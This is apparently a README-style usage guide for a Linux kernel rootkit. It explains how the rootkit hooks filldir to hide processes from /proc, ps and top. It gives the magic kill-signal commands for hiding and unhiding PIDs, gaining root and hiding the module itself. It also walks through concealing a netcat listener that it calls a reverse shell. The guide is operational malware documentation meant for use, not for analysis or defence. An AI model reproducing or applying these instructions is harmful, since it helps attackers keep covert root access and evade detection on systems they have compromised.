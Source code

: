 # Process Hiding Usage Guide

This rootkit now supports hiding processes from system tools like `ps`, `top`, `htop`, and `/proc` directory listings.

## How Process Hiding Works

The rootkit hooks the `filldir` and `filldir64` functions to intercept directory listings in `/proc`. When a process ID is in the hidden list, its directory entry in `/proc` is filtered out, making the process invisible to most userspace tools.

## Usage Commands

### Hide a Process
```bash
# Hide process with PID 1234
kill -34 1234

# Hide current shell process
kill -34 0
```

### Unhide a Process
```bash
# Unhide process with PID 1234
kill -35 1234

# Unhide current shell process
kill -35 0
```

### Other Existing Commands
```bash
# Get root privileges
kill -10 0

# Hide/show the rootkit module
kill -12 0
```

## Configuration

- **Maximum Hidden PIDs**: 10 (configurable via `HIDE_PID_LIST_SIZE` in config.h)
- **Signal Numbers**: 
  - SIGRTMIN (34): Hide process
  - SIGRTMIN1 (35): Unhide process

## Example Usage Scenario

1. Start a suspicious process (e.g., a reverse shell):
   ```bash
   nc -l -p 4444 &
   echo $!  # Note the PID, e.g., 5678
   ```

2. Hide the process:
   ```bash
   kill -34 5678
   ```

3. Verify it's hidden:
   ```bash
   ps aux | grep nc     # Should not show the netcat process
   ls /proc/5678        # Should show "No such file or directory"
   ```

4. Unhide when needed:
   ```bash
   kill -35 5678
   ```

## Technical Details

- The rootkit maintains an internal list of hidden PIDs
- Process hiding works by filtering `/proc` directory entries
- Hidden processes are still running and functional, just invisible to most tools
- The hiding affects: `ps`, `top`, `htop`, `/proc` listings, and other tools that read from `/proc`

## Limitations

- Maximum of 10 processes can be hidden simultaneously
- Some advanced forensic tools might still detect hidden processes
- Process hiding only affects `/proc` directory listings, not kernel-level process tracking
